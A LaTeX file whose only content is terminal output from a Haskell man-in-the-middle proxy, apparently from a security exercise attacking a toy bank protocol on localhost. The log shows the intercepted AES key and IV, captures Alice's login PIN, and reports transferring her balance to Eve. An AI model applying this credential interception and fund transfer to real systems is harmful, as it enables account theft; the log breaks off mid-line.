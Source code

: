 \documentclass[12pt]{article}
\begin{document}
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ghc -O2 MitmProxy && ./MitmProxy ActiveMITM 1200 1201
Received a connection from localhost:37969
Forwarding to localhost:1201
Raw AES key: "N\171\144\140H*\143L\208$DxJ\SUBgY"
Raw AES IV: "1\191\179\174'y\SO\232\&9\210`\149\232n\192\208"
Raw Initial Nonce: "RlFG2izP47629746"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"123456\", actOldNonce = \"RlFG2izP47629746\", 
actNewNonce = \"FrpSoXSF49325312\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"FrpSoXSF49325312\", 
actNewNonce = \"B&u^aF^u52980286\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"B&u^aF^u52980286\", 
actNewNonce = \"BjLzVTA#54300548\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"BjLzVTA#54300548\", 
actNewNonce = \"W65!WuLI54301141\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"W65!WuLI54301141\", 
actNewNonce = \"BobBnEF555492813\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"BobBnEF555492813\", 
actNewNonce = \"nTBpaNkU55493336\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"012345\", actOldNonce = \"nTBpaNkU55493336\", 
actNewNonce = \"VRs#j^2a58112198\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
Intercepted creds "Alice":"012345"
Transferring everything to Eve
Transfer successful
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"VRs#j^2a58112198\", 
actNewNonce = \"a3KmSCM!62023423\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"a3KmSCM!62023423\", 
actNewNonce = \"66UPbZl463449808\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"66UPbZl463449808\", 
actNewNonce = \"hsnH^epO63450725\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"hsnH^epO63450725\", 
actNewNonce = \"khF6Xg7M64658788\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"khF6Xg7M64658788\", 

\end{Verbatim}
\end{document}
